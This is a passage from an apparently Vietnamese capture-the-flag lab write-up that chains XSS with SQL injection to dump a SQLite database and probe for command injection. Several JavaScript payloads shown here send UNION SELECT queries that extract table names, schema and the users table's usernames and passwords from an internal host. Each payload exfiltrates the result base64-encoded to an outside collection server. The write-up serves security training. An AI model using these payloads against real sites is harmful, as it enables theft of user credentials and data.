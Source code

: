 Kết quả trả về cho thấy chúng ta đã bypass được trang đăng nhập và có quyền truy cập vào thông tin người dùng.

### 4. Dump Cơ Sở Dữ Liệu

Tiếp theo, chúng ta có thể khai thác thêm SQL Injection để dump cơ sở dữ liệu.

- **Dump tên bảng**:
```javascript
var xhr = new XMLHttpRequest();
var params = `uname=${encodeURIComponent("' UNION SELECT 1,2,3,group_concat(tbl_name) FROM sqlite_master-- -")}&pass=x`;
xhr.open('POST', 'http://internal.vulnerablesite.htb/check', false);
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.send(params);
var exfil = new XMLHttpRequest();
exfil.open("GET", "http://exfiltrate.htb/exfil?r=" + btoa(xhr.responseText), false);
exfil.send();
```

- **Dump schema của bảng users**:
```javascript
var xhr = new XMLHttpRequest();
var params = `uname=${encodeURIComponent("' UNION SELECT 1,2,3,group_concat(sql) FROM sqlite_master WHERE name='users'-- -")}&pass=x`;
xhr.open('POST', 'http://internal.vulnerablesite.htb/check', false);
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.send(params);
var exfil = new XMLHttpRequest();
exfil.open("GET", "http://exfiltrate.htb/exfil?r=" + btoa(xhr.responseText), false);
exfil.send();
```

- **Dump dữ liệu bảng users**:
```javascript
var xhr = new XMLHttpRequest();
var params = `uname=${encodeURIComponent("' UNION SELECT id,username,password,info FROM users-- -")}&pass=x`;
xhr.open('POST', 'http://internal.vulnerablesite.htb/check', false);
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.send(params);
var exfil = new XMLHttpRequest();
exfil.open("GET", "http://exfiltrate.htb/exfil?r=" + btoa(xhr.responseText), false);
exfil.send();
```

### 5. Khai Thác Command Injection Qua XSS

Tiếp theo, chúng ta sẽ chuyển sang khai thác một lỗ hổng Command Injection thông qua XSS. Bằng cách gửi các yêu cầu POST, chúng ta có thể gửi các lệnh shell tới server nội bộ và nhận kết quả phản hồi qua exfiltration server.

- **Kiểm tra việc thực thi lệnh `curl`**: Đầu tiên, chúng ta thử gửi một yêu cầu với tên miền không tồn tại và nhận được phản hồi lỗi từ lệnh `curl`:
```javascript
var xhr = new XMLHttpRequest();
var params = `webapp_selector=${encodeURIComponent("http://doesnotexist.htb")}`;
xhr.open('POST', 'http://internal.vulnerablesite.htb/check', false);
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.send(params);
var exfil = new XMLHttpRequest();
exfil.open("GET", "http://exfiltrate.htb/exfil?r=" + btoa(xhr.responseText), false);
exfil.send();
```
